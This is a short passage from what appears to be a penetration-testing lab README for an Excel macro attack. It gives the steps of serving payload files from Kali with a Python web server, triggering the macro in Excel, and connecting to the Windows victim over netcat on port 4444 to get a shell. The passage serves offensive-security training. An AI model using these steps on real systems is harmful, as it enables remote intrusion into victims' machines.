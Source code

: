 1. in the folder where you created all the files in kali start python web server: python3 -m http.server 80

![Alt text](https://github.com/mikeleord/ptx-macroLab/blob/main/pushandwin.png?raw=true "Bingo")

2. press the magic button to win on excel

3. on another terminal connect the windows machine with the command: nc 10.29.22.164 4444 (change the ip with that of your machine)

4. BINGO

![Alt text](https://github.com/mikeleord/ptx-macroLab/blob/main/bingo.png?raw=true "Bingo")
